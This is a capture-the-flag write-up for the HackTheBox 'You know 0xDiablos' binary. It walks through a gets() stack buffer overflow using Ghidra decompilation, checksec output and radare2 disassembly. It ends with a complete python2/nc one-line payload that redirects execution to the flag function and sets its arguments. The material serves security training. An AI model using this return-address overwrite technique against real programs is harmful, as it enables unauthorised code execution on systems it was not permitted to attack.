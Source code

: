 ```yaml
---
description: You know 0xDiablos challenge from HackTheBox write up.
---
```


# You know 0xDiablos

The first thing I did was open the binay with Ghidra:

```c
void vuln(void)

{
  char local_bc [180];
  
  gets(local_bc);
  puts(local_bc);
  return;
}


undefined4 main(void)
{
  __gid_t __rgid;
  
  setvbuf(stdout,(char *)0x0,2,0);
  __rgid = getegid();
  setresgid(__rgid,__rgid,__rgid);
  puts("You know who are 0xDiablos: ");
  vuln();
  return 0;
}
```

As we can see here, the `vuln` function is using `gets`, what is vulnerable to a buffer overflow. We can also find a `flag` function that will print the flag to us when executed:

```c
void flag(int param_1,int param_2)

{
  char local_50 [64];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 != (FILE *)0x0) {
    fgets(local_50,0x40,local_10);
    if ((param_1 == -0x21524111) && (param_2 == -0x3f212ff3)) {
      printf(local_50);
    }
    return;
  }
  puts("Hurry up and try in on server side.");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

According to radare the entrypoint for this function is: `0x080491e2`. Since the binary has no protections regarding ASLR:

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/You know 0xDiablos]
└─$ checksec vuln 
[*] '/home/kali/Desktop/HTB/You know 0xDiablos/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

We can create a 188 bytes payload (180 bytes for the buffer, 4 bytes for the 8 bytes alligment and 4 bytes for the EBP) followed by the `flag` function entrypoint address in little endian to overwrite the stack return pointer and make the program execute the `flag` function. Nice, now for the flag function to print the flag we need to also modify the function parameters:

```assembly
[0xf7f470b0]> pdf @sym.flag
┌ 144: sym.flag (int32_t arg_8h, int32_t arg_ch);
│           ; var int32_t var_4ch @ ebp-0x4c
│           ; var int32_t var_ch @ ebp-0xc
│           ; var int32_t var_4h @ ebp-0x4
│           ; arg int32_t arg_8h @ ebp+0x8
│           ; arg int32_t arg_ch @ ebp+0xc
│           0x080491e2      55             push ebp
│           0x080491e3      89e5           mov ebp, esp
│           0x080491e5      53             push ebx
│           0x080491e6      83ec54         sub esp, 0x54
│           0x080491e9      e832ffffff     call sym.__x86.get_pc_thunk.bx
│           0x080491ee      81c3122e0000   add ebx, 0x2e12
│           0x080491f4      83ec08         sub esp, 8
│           0x080491f7      8d8308e0ffff   lea eax, [ebx - 0x1ff8]
│           0x080491fd      50             push eax
│           0x080491fe      8d830ae0ffff   lea eax, [ebx - 0x1ff6]
│           0x08049204      50             push eax
│           0x08049205      e8a6feffff     call sym.imp.fopen          ; file*fopen(const char *filename, const char *mode)                                                                                                                         
│           0x0804920a      83c410         add esp, 0x10
│           0x0804920d      8945f4         mov dword [var_ch], eax
│           0x08049210      837df400       cmp dword [var_ch], 0
│       ┌─< 0x08049214      751c           jne 0x8049232
│       │   0x08049216      83ec0c         sub esp, 0xc
│       │   0x08049219      8d8314e0ffff   lea eax, [ebx - 0x1fec]
│       │   0x0804921f      50             push eax
│       │   0x08049220      e84bfeffff     call sym.imp.puts           ; int puts(const char *s)
│       │   0x08049225      83c410         add esp, 0x10
│       │   0x08049228      83ec0c         sub esp, 0xc
│       │   0x0804922b      6a00           push 0
│       │   0x0804922d      e84efeffff     call sym.imp.exit           ; void exit(int status)
│       └─> 0x08049232      83ec04         sub esp, 4
│           0x08049235      ff75f4         push dword [var_ch]
│           0x08049238      6a40           push 0x40                   ; '@' ; 64
│           0x0804923a      8d45b4         lea eax, [var_4ch]
│           0x0804923d      50             push eax
│           0x0804923e      e80dfeffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
│           0x08049243      83c410         add esp, 0x10
│           0x08049246      817d08efbead.  cmp dword [arg_8h], 0xdeadbeef
│       ┌─< 0x0804924d      751a           jne 0x8049269
│       │   0x0804924f      817d0c0dd0de.  cmp dword [arg_ch], 0xc0ded00d
│      ┌──< 0x08049256      7514           jne 0x804926c
│      ││   0x08049258      83ec0c         sub esp, 0xc
│      ││   0x0804925b      8d45b4         lea eax, [var_4ch]
│      ││   0x0804925e      50             push eax
│      ││   0x0804925f      e8ccfdffff     call sym.imp.printf         ; int printf(const char *format)
│      ││   0x08049264      83c410         add esp, 0x10
│     ┌───< 0x08049267      eb04           jmp 0x804926d
│     ││└─> 0x08049269      90             nop
│     ││┌─< 0x0804926a      eb01           jmp 0x804926d
│     │└──> 0x0804926c      90             nop
│     │ │   ; CODE XREFS from sym.flag @ 0x8049267, 0x804926a
│     └─└─> 0x0804926d      8b5dfc         mov ebx, dword [var_4h]
│           0x08049270      c9             leave
└           0x08049271      c3             ret
```

Adding 4 bytes for the function return pointer (We don't really care) and then the values of the parameters (`0xdeadbeef` and `0xc0ded00d`) in hexadecimal and little endian will do:


```bash
python2 -c "print(b'A'*188 + b'\xe2\x91\x04\x08' + b'A'*4 + b'\xef\xbe\xad\xde' + b'\x0d\xd0\xde\xc0')" | nc <MACHINE_IP> <MACHINE_PORT>
```

